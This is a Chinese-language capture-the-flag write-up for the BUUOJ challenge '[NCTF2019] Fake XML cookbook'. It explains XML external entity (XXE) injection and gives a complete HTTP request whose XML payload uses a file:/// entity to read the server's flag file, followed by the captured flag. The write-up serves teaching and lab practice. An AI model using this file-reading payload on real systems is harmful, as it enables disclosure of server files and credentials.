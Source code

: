 # [NCTF2019]Fake XML cookbook

[题目地址](https://buuoj.cn/challenges#[NCTF2019]Fake%20XML%20cookbook)

xxe入门题，笑死根本没听过xxe。

进来就一个登录框，测试感觉不是sql注入，扫目录也没扫出个所以然。看看源代码。

```js
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

登录逻辑是发post到doLogin.php来实现的，数据是xml形式。xml相关的漏洞不止一个，不过我们需要读取flag文件，[xxe漏洞](https://xz.aliyun.com/t/6887#toc-5)正好可以造成任意文件读取，那就先试试这个。给出的文章中提到了如何构造payload，这里给出重点。

xxe全名叫“xml外部实体注入“，那总要知道什么是实体吧？在文章的DTD部分介绍了实体，任意文件读取正是利用了外部引入实体文件的特性。首先我们需要声明当前文件中的元素：

```
<!DOCTYPE 根元素名称 [元素声明]>
```

不多做别的，直接让包含的元素是flag就行了。可以通过以下方式引入本机的实体文件：

```
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

这里url我们用file协议。构造payload、。

```
POST /doLogin.php HTTP/1.1
Host: a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81
Content-Length: 154
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81
Referer: http://a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM  "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>1</password>
</user>
```

解析一下payload。

```xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [   <!--此处名字随便写，虽然这里本应该写file:///flag文件的根元素，但是flag文件压根就没有根元素，于是就不重要了-->
<!ENTITY flag SYSTEM  "file:///flag">  <!--定义子元素，只有一个，就是利用file协议读取的flag-->
]>
<user>
	<username>&flag;</username>   <!--&符号引用一般实体，上方定义实体名为flag，这里就写&flag。根据之前的测试，程序会把名字回显，因此把flag注入到username处就能回显出来结果-->
	<password>1</password>
</user>
```

## Flag
> flag{4fc352f7-5ad2-4d29-9554-38b17d9fc8cd}